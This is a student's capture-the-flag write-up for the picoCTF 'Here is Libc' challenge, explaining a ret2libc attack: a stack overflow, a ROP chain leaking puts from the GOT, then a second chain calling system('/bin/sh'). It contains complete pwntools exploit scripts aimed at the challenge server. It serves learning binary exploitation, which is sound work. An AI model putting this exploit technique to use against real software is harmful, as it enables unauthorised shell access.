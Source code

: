 # CTF Write-Up: [Here is Libc][Binary Exploitation]

## Description
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb
- Youtube

## Write-Up

### Preparatory Phase

The first course of action was running `checksec vuln` to obtain the binary architecture and its protections. We find out that it is a 64-bit architecture with `NX` enabled which suggests that we cannot run our own shellcode on the stack. In conjuction with the name of the challenge we will need to likely use the `libc` file to obtain shell access.  We must also note that `Partial RELRO` is on, which means we can still write to the `GOT`.



Running the binary locally under `gdb` presented issues. I searched up the problem on StackOverflow and ran `sudo ldconfig -v`, but it didn't seem to work. Thus I then manually decided to obtain the offset using a manual binary search method. I eventually found the minimum value it core dumped was at 136 bytes deep.

```
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```
> Error provided




![alt text](images/image.png)
> Found offset to be exactly 136 bytes

Conducting static analysis using `gdb` I was able to print the functions present in the program. We must note the `puts@plt` which will be useful in leaking the address of `puts`. Using my analogy (inside `ANALYSIS.md`), the `plt` is our new retail worker and `got` is their trusty directory. The binary (the customer) will then ask `plt` for where the address is of a function. 

![alt text](images/image-1.png)

My first aim is to leak the address of `puts` using one **ROP chain.** This occurs when the binary asks for where a particular function is. Then using this information I am able to obtain the base address for `libc` and obtain the addresses for `system` and `/bin/sh` to form our **second ROP chain** which will form the main punching power of our payload.

### Attack Phase
Using the formula from above I can begin my attack which is broken down into two phases. Reference: 
1. Obtain `libc` base
2. Exploit with our **Bonnie and Clyde** (system and /bin/sh)

To obtain the `libc` base we can take advantage of the dynamically linked standard C functions such as `puts`. What we want to do is push the `GOT` address of `puts` as an argument into the `puts` function (Mouth-full) so then the program will print the address of `puts`. We then need a pointer back to `main` to gain shell access.

Since `rdi` is the first argument to be pushed onto the stack via 64-bit calling conventions we need to find the gadget associated with `rdi`. We do this via `ROPgadget --binary vuln | grep rdi`

![alt text](images/image-2.png)

Using this knowledge and the fact that pwntools has inbuilt functionality to deal with ELF files using the documentation [here](https://docs.pwntools.com/en/stable/elf/elf.html),  we were able to leak
``` py
#!usr/bin/python3

from pwn import *
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])

## Note this only works because PIE and ASLR are disabled for the binary
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline()
leaked_puts = resp
print(leaked_puts)
```

Now we have leaked where `puts` is and have returned back to the start of main is. We then can obtain the offsets for libc and get our **Bonnie and Clyde** (`system` and `'/bin/sh'`) using the below formula.
```
libc_base = leaked_puts - libc.symbols['puts']
bin_sh = next(libc.search(b"/bin/sh")) + libc_base
system = libc.symbols['system'] + libc_base

```

The payload should simply be `offset + pop_rdi_gadget + bin_sh + system`, but it didn't seem to work. Upon further investigation it appears my stack was not aligned properly and needed a `ret` instruction prior to calling `system`. 
### Final Solution/Payload

<details><summary> Dropdown for code </bold> </summary>
<br>

``` py
#!usr/bin/python3

from pwn import *
from Cryptodome.Util.number import bytes_to_long
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
ret = p64(0x000000000040052e)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline().strip()
print(f"Leaked puts: {resp}")
leaked_puts_addy = u64(resp.ljust(8, b'\x00'))

libc.address = leaked_puts_addy - libc.symbols['puts']

print(f"Base of libc is {hex(libc.address)}")
bin_sh = p64(next(libc.search(b'/bin/sh')))
system_addy = p64(libc.symbols['system'])

rop2_chain = [
    padding,
    ret,
    pop_rdi,
    bin_sh,
    system_addy
]
payload = b''.join(rop2_chain)
io.clean()
io.sendline(payload)
io.interactive()



```
</details>

![alt text](images/image-3.png)

### Lessons Learnt
1. Within the COMP6841 wargames, there was a `ret2libc` exercise but it leaked the address of a known function explicitly. However, this time this exercise requires two payloads - one to leak an function address in order to obtain the `libc base` and a second payload to gain shell access. Reading [this](https://tc.gts3.org/cs6265/tut/tut06-01-rop.html) assisted in my learning.

2. It was vital that for each binary exploitation challenge I must check the architecture via `file` or `checksec`. The way we approach 32-bit and 64-bit exploitations is different due to their differences in calling conventions. I attempted to do this challenge with the same mindset as I employed with the COMP6841 Wargames `ret2libc` but it didn't work and it wasted hours of my time :(.

3. Stack alignment is paramount on `x64` architectures as it needs to be a multiple of 16 bytes. We do this by prepending a `ret` instruction on our payload. https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment
## References

- https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
- https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment
